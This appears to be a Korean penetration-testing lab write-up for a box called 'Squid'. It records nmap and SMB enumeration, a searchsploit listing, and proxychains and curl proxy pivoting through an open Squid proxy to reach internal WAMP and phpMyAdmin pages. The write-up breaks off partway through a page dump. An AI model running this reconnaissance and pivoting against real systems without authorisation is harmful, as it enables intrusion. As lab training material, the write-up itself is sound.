


# Squid

```bash
docker cp universal.ovpn kali:/

apt install openvpn
openvpn --config /universal.ovpn --daemon

apt install procps
ps aux | grep openvpn

apt install iproute2
ip a | grep tun

# 192.168.66.189
```

## 1. 스캔

```text
┌──(root㉿docker-desktop)-[/]
└─# nmap -Pn -O -oN nmap.txt -sV -sC -p- 192.168.66.189 --stats-every 1m

┌──(root㉿docker-desktop)-[/]
└─# nmap -Pn -O -oN nmap.txt -sC -sV -p- 192.168.66.189
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-16 09:45 +0000
Nmap scan report for 192.168.66.189
Host is up (0.091s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
3128/tcp open http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1903 - 22H2 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2026-10-16T09:49:09
|_ start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 236.62 seconds
```

## 2. SMB

- smbclient

```text
┌──(root㉿docker-desktop)-[/]
└─# smbclient -L 192.168.66.189 -N
session setup failed: NT_STATUS_ACCESS_DENIED

┌──(root㉿docker-desktop)-[/]
└─# smbclient //192.168.66.189/anonymous -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

- smbclient 445 anonymous blocked

## 3. Squid

```bash
http http://192.168.66.189:3128
```

```text
HTTP/1.1 400 Bad Request
Connection: close
Content-Language: en
Content-Length: 3394
Content-Type: text/html;charset=utf-8
Date: Mon, 19 Oct 2026 07:55:03 GMT
Mime-Version: 1.0
Server: squid/4.14
Vary: Accept-Language
Via: 1.1 SQUID (squid/4.14)
X-Cache: MISS from SQUID
X-Squid-Error: ERR_INVALID_URL 0

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!--
 /*
 * Copyright (C) 1996-2021 The Squid Software Foundation and contributors
 *
 * Squid software is distributed under GPLv2+ license and includes
 * contributions from numerous individuals and organizations.
 * Please see the COPYING and CONTRIBUTORS files for details.
 */

/*
Stylesheet for Squid Error pages
Adapted from design by Free CSS Templates
http://www.freecsstemplates.org
Released for free under a Creative Commons Attribution 2.5 License
*/

/* Page basics _/
/_ Page displayed title area */
#titles {
background: url('/squid-internal-static/icons/SN.png') no-repeat left;
}

body
:lang(fa) { direction: rtl; font-size: 100%; font-family: Tahoma, Roya, sans-serif; float: right; }
:lang(he) { direction: rtl; }
--></style>
</head><body id=ERR_INVALID_URL>
<div id="titles">
<h1>ERROR</h1>
<h2>The requested URL could not be retrieved</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="/">/</a></p>

<blockquote id="error">
<p><b>Invalid URL</b></p>
</blockquote>

<p>Some aspect of the requested URL is incorrect.</p>

<p>Some possible problems are:</p>
<ul>
<li><p>Missing or incorrect access protocol (should be <q>http://</q> or similar)</p></li>
<li><p>Missing hostname</p></li>
<li><p>Illegal double-escape in the URL-Path</p></li>
<li><p>Illegal character in hostname; underscores are not allowed.</p></li>
</ul>

<p>Your cache administrator is <a href="mailto:webmaster?subject=CacheErrorInfo%20-%20ERR_INVALID_URL&amp;body=CacheHost%3A%20SQUID%0D%0AErrPage%3A%20ERR_INVALID_URL%0D%0AErr%3A%20%5Bnone%5D%0D%0ATimeStamp%3A%20Mon,%2019%20Oct%202026%2007%3A55%3A03%20GMT%0D%0A%0D%0AClientIP%3A%20192.168.45.248%0D%0A%0D%0AHTTP%20Request%3A%0D%0A%0D%0A%0D%0A">webmaster</a>.</p>
<br>
</div>

<hr>
<div id="footer">
<p>Generated Mon, 19 Oct 2026 07:55:03 GMT by SQUID (squid/4.14)</p>
<!-- ERR_INVALID_URL -->
</div>
</body></html>
```

- squid 4.14 found

```text
┌──(root㉿docker-desktop)-[/]
└─# searchsploit squid

---

Exploit Title | Path

---

MySQL Squid Access Report 2.1.4 - HTML Injection | php/webapps/20055.txt
MySQL Squid Access Report 2.1.4 - SQL Injection / Cross-Site Scripting | php/webapps/44483.txt
National Science Foundation Squid Proxy 2.3 - Internet Access Control Bypass | linux/remote/24105.txt
National Science Foundation Squid Web Proxy 1.0/1.1/2.1 - Authentication Failure | linux/remote/19567.txt
PageSquid CMS 0.3 Beta - 'index.php' SQL Injection | php/webapps/5899.txt
Squid - 'httpMakeVaryMark()' Remote Denial of Service | linux/dos/38365.txt
Squid - NTLM (Authenticated) Overflow (Metasploit) | linux/remote/16847.rb
Squid 2.0-4 - Cache FTP Proxy URL Buffer Overflow | unix/remote/21297.c
Squid 2.4.1 - Remote Buffer Overflow | linux/remote/347.c
Squid 2.5.x/3.x - NTLM Buffer Overflow (Metasploit) | multiple/remote/9951.rb
Squid 3.3.5 - Denial of Service (PoC) | linux/dos/26886.pl
Squid < 3.1 5 - HTTP Version Number Parsing Denial of Service | multiple/dos/8021.pl
Squid Analysis Report Generator 2.3.10 - Remote Code Execution | php/webapps/42993.txt
Squid Proxy 2.4/2.5 - NULL URL Character Unauthorized Access | linux/remote/23777.txt
Squid Proxy 2.5/2.6 - FTP URI Remote Denial of Service | linux/dos/29473.txt
Squid Web Proxy 2.2 - 'cachemgr.cgi' Unauthorized Connection | cgi/remote/20465.sh
Squid Web Proxy 2.3 - Reverse Proxy | linux/remote/21017.txt
SquidGuard 1.4 - Long URL Handling Remote Denial of Service | xml/dos/37685.txt
SquidGuard 1.x - NULL URL Character Unauthorized Access | linux/remote/23848.txt
```

- proxy 활용

- `-x` : proxy 서버 지정

```bash
curl -x http://192.168.66.189:3128 192.168.66.189
curl -x http://192.168.66.189:3128 http://192.168.66.189
```

```text
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta http-equiv="Content-Type" CONTENT="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!--
 /*
 * Copyright (C) 1996-2021 The Squid Software Foundation and contributors
 *
 * Squid software is distributed under GPLv2+ license and includes
 * contributions from numerous individuals and organizations.
 * Please see the COPYING and CONTRIBUTORS files for details.
 */

/*
Stylesheet for Squid Error pages
Adapted from design by Free CSS Templates
http://www.freecsstemplates.org
Released for free under a Creative Commons Attribution 2.5 License
*/

--></style>
</head><body id=ERR_CONNECT_FAIL>
<div id="titles">
<h1>ERROR</h1>
<h2>The requested URL could not be retrieved</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="http://192.168.66.189/">http://192.168.66.189/</a></p>

<blockquote id="error">
<p><b>Connection to 192.168.66.189 failed.</b></p>
</blockquote>

<p id="sysmsg">The system returned: <i>(111) Connection refused</i></p>

<p>The remote host or network may be down. Please try the request again.</p>

<p>Your cache administrator is <a href="mailto:webmaster?subject=CacheErrorInfo%20-%20ERR_CONNECT_FAIL&amp;body=CacheHost%3A%20SQUID%0D%0AErrPage%3A%20ERR_CONNECT_FAIL%0D%0AErr%3A%20(111)%20Connection%20refused%0D%0ATimeStamp%3A%20Mon,%2019%20Oct%202026%2008%3A30%3A20%20GMT%0D%0A%0D%0AClientIP%3A%20192.168.45.248%0D%0AServerIP%3A%20192.168.66.189%0D%0A%0D%0AHTTP%20Request%3A%0D%0AGET%20%2F%20HTTP%2F1.1%0AUser-Agent%3A%20curl%2F8.22.0%0D%0AAccept%3A%20*%2F*%0D%0AProxy-Connection%3A%20Keep-Alive%0D%0AHost%3A%20192.168.66.189%0D%0A%0D%0A%0D%0A">webmaster</a>.</p>

<br
</div>

<hr>
<div id="footer">
<p>Generated Mon, 19 Oct 2026 08:30:20 GMT by SQUID (squid/4.14)</p>
<!-- ERR_CONNECT_FAIL -->
</div>
</body></html>
```

## 4. proxychains

- /etc/proxychains.cfg 변경

```text
[ProxyList]
http 192.168.66.189 3128
```

- 프록시 활용한 내부 스캔
- 프록시 체인이 TPC만 지원하므로 -sT 명시

```bash
proxychains nmap -sT -p- -Pn 192.168.66.189
proxychains nmap -sT -sV -sC -p- --open -Pn -oN proxy_scan.txt 192.168.66.189
```

```text
┌──(root㉿docker-desktop)-[/]
└─# proxychains nmap -sV -sC -p- --open -Pn -oN proxy_scan.txt 192.168.66.189
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-19 08:42 +0000
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:135 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:139 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49666 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49667 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:39458 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:7587 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49667 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49666 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:135 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:139 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49666 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:135 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:139 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:3128 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:49667 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 192.168.66.189:445 <--socket error or timeout!
Nmap scan report for 192.168.66.189
Host is up (0.097s latency).
Not shown: 65529 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
135/tcp open tcpwrapped
139/tcp open tcpwrapped
445/tcp open tcpwrapped
3128/tcp open tcpwrapped
49666/tcp open tcpwrapped
49667/tcp open tcpwrapped

Host script results:
|_smb2-security-mode: SMB: Failed to connect to host: ERROR
|_smb2-time: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 734.75 seconds
```

- 다를게 없어서 내부로 바꿔서 다시

```bash
proxychains nmap -sT -p- --open -Pn 127.0.0.1
```

```text
┌──(root㉿docker-desktop)-[/]
└─# proxychains nmap -sT -p- --open -Pn 127.0.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-19 08:56 +0000
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:3306 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:1025 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:256 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:22 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:443 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:8888 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:8080 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:995 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:445 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:199 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:25 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:113 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:587 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:5900 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:111 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:993 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:1720 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:21 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:139 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:135 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:3389 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:23 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:53 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:554 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:143 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:110 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:1723 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:80 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:22370 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:20610 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:31099 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:32076 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:39696 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:3640 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:15877 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:10693 <--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:51762
```

- proxychains http 127.0.0.1:8080
- 프록시 체인으로 스캐닝 이후 직접 접근

```text
┌──(root㉿docker-desktop)-[/]
└─# proxychains http 127.0.0.1:80
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:80 <--socket error or timeout!

http: error: ConnectionError: HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: / (Caused by NewConnectionError("HTTPConnection(host='127.0.0.1', port=80): Failed to establish a new connection: [Errno 111] Connection refused")) while doing a GET request to URL: http://127.0.0.1:80/
```

## 5. 내부 웹

- CURL 활용해서 접근
- curl -x http://192.168.66.189:3128 http://127.0.0.1:8080

```text
┌──(root㉿docker-desktop)-[/]
└─# curl -x http://192.168.66.189:3128 http://127.0.0.1:8080
<!DOCTYPE html>
<html>
<head>
	<title>WAMPSERVER Homepage</title>
	<meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width">
	<link id="stylecall" rel="stylesheet" href="wampthemes/classic/style.css" />
	<link rel="shortcut icon" href="favicon.ico" type="image/ico" />
</head>

<body>
  <div id="head">
    <div class="innerhead">
	    <h1><abbr title="Windows">W</abbr><abbr title="Apache">a</abbr><abbr title="MySQL/MariaDB">m</abbr><abbr title="PHP">p</abbr><abbr title="server WEB local">server</abbr></h1>
		   <ul>
			   <li>Apache 2.4</li><li>-</li><li>MySQL 5 &amp; 8</li><li>-</li><li>MariaDB 10</li><li>-</li><li>PHP 5 &amp; 7</li>
		   </ul>
     </div>
		<ul class="utility">
		  <li>Version 3.2.3 - 64bit</li>
      <li><form method="get" style="display:inline-block;"><select name="lang" id="langues" onchange="this.form.submit();">
<option value="czech">czech</option>
<option value="english" selected >english</option>
<option value="french">french</option>
<option value="hellenic">hellenic</option>
<option value="macedonian">macedonian</option>
<option value="portuguese">portuguese</option>
<option value="romanian">romanian</option>
<option value="spanish">spanish</option>
<option value="turkish">turkish</option>
</select></form><select id="themes">
<option id="classic">classic</option>
<option id="modern">modern</option>
<option id="no-style">no-style</option>
<option id="simple">simple</option>
</select>
</li>
	  </ul>
	</div>

    <div class="config">
        <div class="innerconfig">

            <h2> Server Configuration </h2>

            <dl class="content">
    	        <dt>Apache Version:</dt>
    	            <dd>2.4.46&nbsp;&nbsp;-&nbsp;<a href='http://httpd.apache.org/docs/2.4/en/'>Documentation</a></dd>
    	        <dt>Server Software:</dt>
    	            <dd>Apache/2.4.46 (Win64) PHP/7.3.21&nbsp;-&nbsp;Port defined for Apache: </dd>
    	        <dt>PHP Version:</dt>
    	            <dd>7.3.21&nbsp;&nbsp;-&nbsp;<a href='http://www.php.net/manual/en/'>Documentation</a></dd>
    	        <dt>Loaded Extensions : </dt>
    	            <dd>
    		            <ul>
    		                <li>apache2handler</li><li>bcmath</li><li>bz2</li><li>calendar</li><li>com_dotnet</li><li>Core</li><li>ctype</li><li>date</li><li>dom</li><li>exif</li><li>fileinfo</li><li>filter</li><li>gd</li><li>gettext</li><li>gmp</li><li>hash</li><li>iconv</li><li>imap</li><li>intl</li><li>json</li><li>ldap</li><li>libxml</li><li>mbstring</li><li>mysqli</li><li>mysqlnd</li><li>openssl</li><li>pcre</li><li>PDO</li><li>pdo_mysql</li><li>pdo_sqlite</li><li>Phar</li><li>readline</li><li>Reflection</li><li>session</li><li>SimpleXML</li><li>soap</li><li>sockets</li><li>SPL</li><li>sqlite3</li><li>standard</li><li>tokenizer</li><li>wddx</li><li>xdebug</li><li>xml</li><li>xmlreader</li><li>xmlrpc</li><li>xmlwriter</li><li>xsl</li><li>Zend OPcache</li><li>zip</li><li>zlib</li>
    		            </ul>
    	            </dd>
    					<dt>MySQL Version:</dt>
    <dd>5.7.31&nbsp;-&nbsp;Port defined for MySQL: 3306&nbsp;-&nbsp;default DBMS&nbsp;-&nbsp; <a href='http://dev.mysql.com/doc/index.html'>Documentation MySQL</a></dd><dt>MariaDB Version: </dt>

  <dd>10.4.13&nbsp;-&nbsp;Port defined for MariaDB: 3307&nbsp;-&nbsp; <a href='http://mariadb.com/kb/en/mariadb/documentation'>Documentation MariaDB</a> - <a class='popup'>MySQL - MariaDB<span>How to use MySQL and/or MariaDB?<br>What is a default DBMS?<br>How to change the default DBMS?<br>Go to the related help: Right-click Wampmanager icon -> Help -> MariaDB - MySQL</span></a></dd>
	        </dl>
        </div>
    </div>

    <div class="divider1">&nbsp;</div>

    <div class="alltools four-columns">
        <div class="inneralltools">
            <div class="column">
                <h2>Tools</h2>
                <ul class="tools">
    	            <li><a href="?phpinfo=-1">phpinfo()</a></li>
    	            <li><a href="phpmyadmin/">phpmyadmin</a></li>
    	            <li><a href='add_vhost.php?lang=english'>Add a Virtual Host</a></li>
                </ul>
            </div>
            		<div class="column">
                <h2>Your Projects</h2>
                <ul class="projects">
                    <li class='projectsdir'>No projects yet.<br />To create a new one, just create a directory in 'www'.</li>

                </ul>
            </div>
            	<div class="column">
                <h2>Your Aliases</h2>
                <ul class="aliases">
                    <li><a href="adminer/">adminer</a></li><li><a href="phpmyadmin/">phpmyadmin</a></li><li><a href="phpsysinfo/">phpsysinfo</a></li>
                </ul>
            </div>	        <div class="column">
                <h2>Your VirtualHost</h2>
                <ul class="vhost">
                    <li>localhost - <i style="color:red;">Not a Listen port</i></li><li><i style='color:red;'>Error(s)</i> See below</li>
                </ul>
            </div>	<div id="error" style="clear:both;"></div>
    <p style='color:red;'>Port  used for the VirtualHost is  not an Apache Listen port<br />The file: C:/Windows/system32/drivers/etc/hosts is not writable<br>Impossible to modify the file C:/Windows/system32/drivers/etc/hosts to be writable<br />

The file C:/Windows/system32/drivers/etc/hosts is not writable<br /></p>
</div>
</div>

    <div class="divider2">&nbsp;</div>

    <ul id="foot">
    	<li><a href="http://forum.wampserver.com/list.php?2">Wampserver Forum</a></li>
    </ul>

<script>
var select = document.getElementById("themes");
if (select.addEventListener) {
    /* Only for modern browser and IE > 9 */
    var stylecall = document.getElementById("stylecall");
    /* looking for stored style name */
    var wampStyle = localStorage.getItem("wampStyle");
    if (wampStyle !== null) {
        stylecall.setAttribute("href", "wampthemes/" + wampStyle + "/style.css");
        selectedOption = document.getElementById(wampStyle);
        selectedOption.setAttribute("selected", "selected");
    }
    else {
        localStorage.setItem("wampStyle","classic");
        selectedOption = document.getElementById("classic");
        selectedOption.setAttribute("selected", "selected");
    }
    /* Changing style when select change */

    select.addEventListener("change", function(){
        var styleName = this.value;
        stylecall.setAttribute("href", "wampthemes/" + styleName + "/style.css");
        localStorage.setItem("wampStyle", styleName);
    })
}
</script>
</body>
</html>
```

```text
curl -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin

┌──(root㉿docker-desktop)-[/]
└─# curl -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://127.0.0.1:8080/phpmyadmin/">here</a>.</p>
<hr>
<address>Apache/2.4.46 (Win64) PHP/7.3.21 Server at 127.0.0.1 Port 8080</address>
</body></html>
```

- curl -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/

```text
┌──(root㉿docker-desktop)-[/]
└─# curl -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/
<!doctype html>
<html lang="en" dir="ltr">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="referrer" content="no-referrer">
  <meta name="robots" content="noindex,nofollow">
  <meta http-equiv="X-UA-Compatible" content="IE=Edge">
  <style id="cfs-style">html{display: none;}</style>
  <link rel="icon" href="favicon.ico" type="image/x-icon">
  <link rel="shortcut icon" href="favicon.ico" type="image/x-icon">
      <link rel="stylesheet" type="text/css" href="./themes/pmahomme/jquery/jquery-ui.css">
    <link rel="stylesheet" type="text/css" href="js/vendor/codemirror/lib/codemirror.css?v=5.0.2">
    <link rel="stylesheet" type="text/css" href="js/vendor/codemirror/addon/hint/show-hint.css?v=5.0.2">
    <link rel="stylesheet" type="text/css" href="js/vendor/codemirror/addon/lint/lint.css?v=5.0.2">
    <link rel="stylesheet" type="text/css" href="./themes/pmahomme/css/theme.css?v=5.0.2&nocache=4709409004ltr&server=1">
    <link rel="stylesheet" type="text/css" href="./themes/pmahomme/css/printview.css?v=5.0.2" media="print" id="printcss">
    <title>phpMyAdmin</title>
    <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.min.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery-migrate.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/whitelist.php?v=5.0.2&amp;lang=en"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/sprintf.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/ajax.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/keyhandler.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/bootstrap/bootstrap.bundle.min.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery-ui.min.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/js.cookie.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.mousewheel.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.event.drag-2.2.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.validate.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery-ui-timepicker-addon.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.ba-hashchange-1.3.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/jquery/jquery.debounce-1.0.5.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/menu_resizer.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/cross_framing_protection.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/rte.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/tracekit.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/error_report.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/messages.php?l=en&amp;v=5.0.2&amp;lang=en"></script>
  <script data-cfasync="false" type="text/javascript" src="js/config.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/doclinks.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/functions.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/navigation.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/indexes.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/common.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/page_settings.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/drag_drop_import.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/shortcuts_handler.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/lib/codemirror.js?v=5.0.2"></script>
